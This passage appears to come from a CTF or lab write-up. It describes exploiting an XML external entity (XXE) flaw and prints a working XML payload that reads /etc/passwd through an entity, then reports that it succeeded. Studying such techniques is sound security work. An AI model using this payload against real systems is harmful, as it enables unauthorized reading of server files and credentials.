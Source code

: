 So, I used the XML external entity (XXE) injection technique to view the contents of the file from the application file system.

{% hint style="info" %}
To Learn more about XML external entity (XXE), Check out the following link: [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)
{% endhint %}

First I tried to view the contents of the `/etc/passwd` file. I uploaded the following code to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<post>
	<title>xml payload to extract the contents of /etc/passwd file</title>
	<description>&xxe;</description>
	<markdown>Example Markdown</markdown>
</post>
```

The payload successfully worked and we can see the `/etc/passwd` file contents:

<figure><img src="../../.gitbook/assets/Untitled 16 (15).png" alt=""><figcaption></figcaption></figure>
